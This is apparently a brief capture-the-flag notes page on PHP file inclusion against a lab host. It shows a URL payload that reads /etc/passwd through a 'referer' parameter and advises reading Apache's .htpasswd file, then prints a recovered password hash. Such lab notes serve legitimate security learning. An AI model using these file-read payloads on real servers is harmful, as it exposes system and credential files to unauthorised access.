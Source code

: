 ```yaml
---
title: Php things 🐘
---
```

## Viewing files on the source code

- If you have a link like this: `http://vulnnet.thm/index.php?referer=` you can try to search for internal files on the victim machine like: `http://vulnnet.thm/index.php?referer=/etc/passwd`

![](Pasted%20image%2020240422001700.png)

### Apache is running

- If an Apache is running on the server, you can search the `/etc/apache2/.htpasswd` file and try to get the password hash

```shell
developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
```